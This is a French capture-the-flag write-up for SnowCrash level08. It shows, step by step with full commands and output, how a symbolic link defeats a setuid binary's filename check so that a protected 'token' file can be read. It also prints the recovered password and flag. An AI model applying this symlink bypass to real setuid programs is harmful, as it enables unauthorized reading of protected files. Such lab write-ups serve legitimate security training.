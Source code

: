 # Level08
## Observations

Dans ce level on trouve dans notre home directory:
- un binaire `level08` disposant d'un setuid bit permettant d'exécuté ce dernier en tant
qu'utilisateur `flag08`.
- un fichier, `token` ayant uniquement les droits de lecture/ecriture pour son propriétaire
`flag08`.

En lançant le binaire, on nous affiche un usage:
```sh
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

Si on essaye avec le fichier token:
```sh
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Si on essaye sur un fichier sur lequel on a le droit de lecture:
```sh
level08@SnowCrash:~$ ./level08 .profile
level08: Unable to open .profile: Permission denied
```

Si on essaye sur un fichier sur lequel tout le monde a le droit de lecture:
```sh
level08@SnowCrash:~$ ./level08 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
[...]
```

Enfin je peux analyser le binaire avec la commande strings:
```sh
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
```

Je repère la ligne `token`, qui pourrait indiquer une condition sur le nom de fichier
token.

A ce stade, on peut supposer que ce programme peut lire un fichier sur lequel l'utilisateur
`flag08` a les droits de lecture, sauf si il s'appelle `token`.

> **Note:** Depuis le début du sujet, chaque home directory dispose des fichiers
> `.bashrc`, `.bash_logout` et `.profile` accessibles en lecture par leurs users
> correspondant. De plus le home directory de `flag08` est `/home/flag/flag08`.
> On peut donc supposer que `/home/flag/flag08/.profile` existe et qu'il n'est
> utilisable que par `flag08`.

```sh
level08@SnowCrash:~$ ./level08 /home/flag/flag08/.profile
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
[...]
```

## Résolution

Pour résoudre ce level, il va donc falloir trouver un moyen de lire `token`, sans
que celui-ci ne s'appelle `token`.

Les commandes `mv` et `cp` me seront inutiles ici, vu que je n'ai pas les permisiions de
lecture/ecriture.

Je peux essayer de créer un lien symbolique:
```sh
level08@SnowCrash:~$ ln -s ./token /tmp/toto
level08@SnowCrash:~$ ./level08 /tmp/toto
level08: Unable to open /tmp/toto: No such file or directory
level08@SnowCrash:~$ ls -l /tmp/toto
lrwxrwxrwx 1 level08 level08 7 Dec 12 22:19 /tmp/toto -> ./token
```

Vu mon message d'erreur j'essaie la même procédure avec un chemin absolu:
```sh
level08@SnowCrash:~$ rm /tmp/toto
level08@SnowCrash:~$ ln -s $(pwd)/token /tmp/toto
level08@SnowCrash:~$ ls -l /tmp/toto
lrwxrwxrwx 1 level08 level08 24 Dec 12 22:20 /tmp/toto -> /home/user/level08/token
level08@SnowCrash:~$ ./level08 /tmp/toto
quif5eloekouj29ke0vouxean
```

J'essaie de me connecter au level09 avec le mot de passe `quif5eloekouj29ke0vouxean`,
c'est un echec.

Au `flag08`:
```sh
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

J'obtiens le flag, je peux passer au level suivant :)
